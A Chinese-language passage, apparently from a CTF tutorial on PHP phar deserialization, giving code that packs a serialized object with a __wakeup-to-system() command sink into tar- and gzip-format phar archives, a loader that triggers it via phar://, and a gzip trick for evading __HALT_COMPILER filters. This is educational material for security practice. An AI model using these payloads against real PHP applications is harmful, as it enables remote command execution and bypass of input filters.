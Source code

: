 ```php

file_get_contents("phar://./test.phar");
```

### tar

```php
<?php

class Sink{
    function __wakeup(){
        system($this->cmd);
    }
}

$o = new Sink();
$o->cmd = "id";

mkdir(".phar");
file_put_contents(".phar/.metadata",serialize($o));
file_put_contents("./test.txt","123");

system("tar -czf test2.phar .phar/.metadata ./test.txt");

system("rm -r .phar test.txt");
```
脚本会在当前目录生成 test2.phar 

load.php
```php
<?php
class Sink{
        function __wakeup(){
            system($this->cmd);
        }
    }

file_get_contents("phar://./test2.phar");
```

### gzip
生成 phar 文件之后，再使用 gzip 进行压缩即可生成 payload. 
```
root@ca2518a6ed32:/var/www/html# php gen.php 
root@ca2518a6ed32:/var/www/html# cat test.phar 
<?php __HALT_COMPILER(); ?>
X"O:4:"Sink":1:{s:3:"cmd";s:2:"id";test.txtt�]d
```
可以看到 phar 文件中是带有 __HALT_COMPILER 字符串的，一些题目会针对 __HALT_COMPILER 进行过滤，使用 gzip 压缩之后就没有 __HALT_COMPILER 字符串了。

```
root@ca2518a6ed32:/var/www/html# gzip test.phar
root@ca2518a6ed32:/var/www/html# cat test.phar.gz 
�дV����````bA(�����V&VJ��y�JV�V��V�VJɹ)J��VFVJ�@F-PUIjq�
```
